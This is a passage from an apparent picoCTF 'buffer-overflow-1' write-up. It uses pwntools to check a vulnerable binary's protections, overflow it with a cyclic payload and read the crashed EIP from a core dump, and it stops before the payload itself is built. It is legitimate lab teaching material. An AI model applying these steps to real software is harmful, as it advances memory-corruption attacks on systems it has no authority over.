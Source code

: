 <div class="text-info">
<i class="fa-solid fa-circle-info"></i> Info: Many Linux systems do not have core dumps properly configured. For bash, run <code>ulimit -c unlimited</code> to generate core dumps of unlimited size. For tsch, run <code>limit coredumpsize unlimited</code>. By default, cores are dumped into either the current directory or <code>/var/lib/systemd/coredump</code>.
</div>

Before we start, let's work through the steps with command-line Python. First, let's import the pwntools global namespace and generate an `elf` object using pwntool's `ELF()`:

<figure class="highlight plaintext"> <table> <tr> <td class="code"> <pre><span class="line"><span class="meta prompt_">$ </span>python3 -q</span><br><span class="meta prompt_">>>></span> from pwn import *
<span class="meta prompt_">>>></span> elf = context.binary = ELF('./vuln')
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#D41919">NX disabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
    RWX:      <span style="color:#D41919">Has RWX segments</span>
</pre> </td></tr></table></figure>

We can then generate a `cyclic()` payload and start a local process referencing the aforementioned `elf` object. Sending the payload and using the [`.wait()`](https://www.educba.com/python-wait/) method will throw an exit code -11, which signals a segmentation fault and generates a core dump. 

<figure class="highlight plaintext"> <table> <tr> <td class="code"> <pre style="white-space: pre-wrap"><span class="meta prompt_">>>></span> p = process(elf.path)
[<span style="color:#9755B3">x</span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2219
<span class="meta prompt_">>>></span> p.sendline(cyclic(128))
<span class="meta prompt_">>>></span> p.wait()
[<span style="color:#277FFF"><b>*</b></span>] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2219)
<span class="meta prompt_">>>></span> exit()
<span class="meta prompt_">$ </span>ls -al
total 2304
drwxr-xr-x  3 kali kali    4096 Jun 16 15:35 <span style="color:#277FFF"><b>.</b></span>
drwxr-xr-x 16 kali kali    4096 Jun 14 17:13 <span style="color:#277FFF"><b>..</b></span>
-rw-------  1 kali kali 2588672 Jun 16 15:35 core
-rw-r--r--  1 kali kali     358 Jun 16 03:22 buffer-overflow-1.py
-rwxr-xr-x  1 kali kali   15704 Mar 15 02:45 <span style="color:#47D4B9"><b>vuln</b></span>
-rw-r--r--  1 kali kali     769 Mar 15 02:45 vuln.c
</pre> </td></tr></table></figure>

We can now create a corefile object and freely reference registers! To find the offset, we can simply call the object key within `cyclic_find()`.

<figure class="highlight plaintext"> <table> <tr> <td class="code"><pre style="white-space: pre-wrap"><span class="meta prompt_">>>></span> core = Corefile('./core')
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff93abe0
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>></span> core.registers
{'eax': 65, 'ebp': 1633771883, 'ebx': 1633771882, 'ecx': 65, 'edi': 134516960, 'edx': 4294967295, 'eflags': 66178, 'eip': 1633771884, 'esi': 1, 'esp': 4287867872, 'orig_eax': 4294967295, 'xcs': 35, 'xds': 43, 'xes': 43, 'xfs': 0, 'xgs': 99, 'xss': 43}
<span class="meta prompt_">>>></span> hex(core.eip)